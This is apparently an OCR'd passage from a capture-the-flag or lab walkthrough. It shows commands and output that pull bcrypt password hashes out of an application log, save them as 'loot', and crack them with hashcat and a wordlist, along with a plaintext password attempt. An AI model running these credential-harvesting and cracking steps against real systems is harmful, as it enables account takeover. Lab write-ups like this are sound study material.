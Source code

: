 ```bash
su postgres
Password: OpenProduceTreat153

# output
su: Authentication failure
```

```bash
cat development.log | grep password_digest | awk -F 'password_digest' '{print $3}' | cut -d, -f2 | cut -d] -f1 | tr -d ' '

# output
$2a$12$u8pzr7GafCt2feEKGChHM.w/iu7zii6x9SXmXqgqpYg1CbJcAsS3O
$2a$12$59HpnfnNKIxpZoyZHY7PPel8sLFqaOBx6X.IFAsvGTwKidUDjVfNO
$2a$12$YjUfD0ILSfReOUv507.cD.g3UWpvDdgDlow9uBUKC5YALfFDZdpGG
```

```bash
cd loot
vim hashes.txt
$2a$12$u8pzr7GafCt2feEKGChHM.w/iu7zii6x9SXmXqgqpYg1CbJcAsS3O
$2a$12$59HpnfnNKIxpZoyZHY7PPel8sLFqaOBx6X.IFAsvGTwKidUDjVfNO
$2a$12$YjUfD0ILSfReOUv507.cD.g3UWpvDdgDlow9uBUKC5YALfFDZdpGG
```

```bash
hashcat -m 3200 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt

# output
$2a$12$YjUfD0ILSfReOUv507.cD.g3UWpvDdgDlow9uBUKC5YALfFDZdpGG:myself
$2a$12$u8pzr7GafCt2feEKGChHM.w/iu7zii6x9SXmXqgqpYg1CbJcAsS3O:myself
$2a$12$59HpnfnNKIxpZoyZHY7PPel8sLFqaOBx6X.IFAsvGTwKidUDjVfNO:myself
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
Hash.Target......: hashes.txt
Time.Started.....: Sat Aug 21 02:31:15 2021 (2 mins, 2 secs)
Time.Estimated...: Sat Aug 21 02:33:17 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       21 H/s (5.77ms) @ Accel:4 Loops:32 Thr:1 Vec:8
Recovered........: 3/3 (100.00%) Digests, 3/3 (100.00%) Salts
Progress.........: 2592/43033155 (0.01%)
Rejected.........: 0/2592 (0.00%)
Restore.Point....: 848/14344385 (0.01%)
Restore.Sub.#1...: Salt:2 Amplifier:0-1 Iteration:4064-4096
Candidates.#1....: peewee -> felipe

Started: Sat Aug 21 02:30:45 2021
Stopped: Sat Aug 21 02:33:19 2021
```
